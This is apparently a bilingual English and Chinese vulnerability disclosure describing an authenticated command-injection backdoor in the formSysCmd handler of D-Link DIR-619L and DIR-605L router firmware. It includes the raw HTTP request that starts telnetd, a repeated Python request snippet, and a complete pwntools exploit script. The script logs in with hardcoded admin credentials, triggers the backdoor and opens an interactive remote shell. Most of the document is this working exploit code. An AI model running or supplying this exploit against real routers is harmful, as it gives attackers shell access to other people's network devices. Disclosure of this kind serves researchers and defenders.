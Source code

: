 Dlink model DIR-619L, the latest firmware 2.06B1, there is a backdoor function that can cause any system command to be executed after user authentication
download link: ftp://ftp2.dlink.com/PRODUCTS/DIR-619L/REVB/
Vulnerability location: file:  /bin/boa  function:formSysCmd
The attacker calls this function by sending a post packet to the http://ip/goform/formSysCmd page.
The program will call the system function with the value of syscmd in the post package.
Post package structure
postData = {
	'sysCmd':cmd,
	'submit-url':'1234',
	}
response = requests.post('http://192.168.0.1/goform/formSysCmd',data=postData)
Http message:
POST /goform/formSysCmd HTTP/1.1
Host: 192.168.0.1
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.20.1
Content-Length: 36
Content-Type: application/x-www-form-urlencoded
submit-url=1234&sysCmd=telnetd+-p+90

The same problem exists with the latest firmware 2.12B1 on the DIR-605L.
download link:ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-605L/REVB/

![image](https://github.com/WhooAmii/whooamii.github.io/blob/master/2018/8.png)

![image](https://github.com/WhooAmii/whooamii.github.io/blob/master/2018/7.png)





Dlink型号DIR-619L最新固件2.06B1上存在验证身份后命令执行后门。
下载地址：ftp://ftp2.dlink.com/PRODUCTS/DIR-619L/REVB/
攻击者可在验证身份后执行任意的系统命令。
漏洞位置 /bin/boa上的formSysCmd函数。
攻击者通过向http://ip/goform/formSysCmd页面发送post包调用此函数。
程序会将post包中syscmd的值通过sprintf后调用system函数。
Post结构
postData = {
	'sysCmd':cmd,
	'submit-url':'1234',
	}
	response = requests.post('http://192.168.0.1/goform/formSysCmd',data=postData)
http报文:
POST /goform/formSysCmd HTTP/1.1
Host: 192.168.0.1
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.20.1
Content-Length: 36
Content-Type: application/x-www-form-urlencoded
submit-url=1234&sysCmd=telnetd+-p+90

型号DIR-605L最新固件2.12B1上同样存在该问题。
下载地址ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-605L/REVB/


 
Script:
``` python
import requests
import sys
import struct
import base64
from pwn import *
ip='192.168.0.1'
port=101
def login(user,password):
	postData = {
	'login_name':'',
	'curTime':'12345',
	'FILECODE':'',
	'VER_CODE':'',
	'VERIFICATION_CODE':'',
	'login_n':user,
	'login_pass':base64.b64encode(password),
	}
	response = requests.post('http://192.168.0.1/goform/formLogin',data=postData)
def syscmd(cmd):
	postData = {
	'sysCmd':cmd,
	'submit-url':'1234',
	}
	response = requests.post('http://192.168.0.1/goform/formSysCmd',data=postData)
def inter():
	p=remote(ip,port)
	p.interactive()
if __name__ == "__main__":
	login('admin','123456')
	syscmd('telnetd -p '+str(port))
	inter()
	
``` 

